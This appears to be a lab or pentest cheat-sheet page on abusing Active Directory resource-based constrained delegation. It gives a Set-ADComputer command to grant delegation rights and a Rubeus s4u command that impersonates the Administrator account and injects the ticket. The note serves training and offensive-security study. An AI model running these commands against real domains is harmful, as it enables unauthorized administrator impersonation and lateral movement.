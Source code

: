 # RBCD

Resource-based Constrained Delegation (RBCD).



We identified that a user we control has `GenericWrite` on a machine account.

```powershell
> Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount 'student35$' -Verbose
```

Now, machine `student35` is allowed to delegate to the machine `us-helpdesk`.

Request a service ticket as machine `student35` but impersonate `Administrator` account via [s4u.md](s4u.md "mention"):

```powershell
> Rubeus.exe s4u /user:student35$ /aes256:<key> /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```

Then we can connect with [#winrs](../misc/ad-authentication.md#winrs "mention") or other ways. It is also possible to request a ticket for multiple services such as CIFS.
